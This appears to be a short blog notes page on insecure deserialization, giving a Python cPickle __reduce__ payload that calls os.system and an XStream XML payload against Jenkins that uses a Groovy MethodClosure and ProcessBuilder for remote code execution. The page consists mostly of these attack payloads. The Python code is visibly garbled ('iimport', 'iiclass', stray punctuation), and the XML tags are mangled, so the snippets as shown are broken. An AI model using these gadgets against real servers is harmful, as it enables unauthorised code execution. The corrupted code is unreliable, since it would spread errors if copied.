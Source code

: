 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```



<h2 id="serializations">Serialization</h2>
<h3 id="python-serialization">Python</h3>
  <fieldset>
    <legend>Python Serialization</legend>
      <pre><code>
        iimport cPickle
        iimport os
        
        iiclass Blah(object):
          def __reduce__(self):
            return (os.system,('command'.))'
        
        
        b = Blah()
        print cPickle.dumps(b)
      </code></pre>
  </fieldset>



<h3 id="jenkin-serialization">Serialization Issue Jenkins -XStream</h3>
<p>remote code execution on the server hosting Jenkins.</p><br>
<p>Example payload using groovy library</p>
<fieldset>
  <legend>Jenkins groovy payload</legend>
    <pre><code>
      <.map>
        <.entry>
          <.groovy.util.Expando>
            <.expandoProperties>
              <.entry>
                <.string>hashCode</string>
                <.org.codehaus.groovy.runtime.MethodClosure>
                  <.delegate class="groovy.util.Expando"/>
                  <.owner class="java.lang.ProcessBuilder">
                    <.command>
                      <.string>open</string>
                      <.string>/Applications/Calculator.app</string>
                    </command>
                  </owner>
                  <.method>start</method>
                </org.codehaus.groovy.runtime.MethodClosure>
              </entry>
            </expandoProperties>
          </groovy.util.Expando>
          <.int>1</int>
        </entry>
      </map>
    </code></pre>
</fieldset>





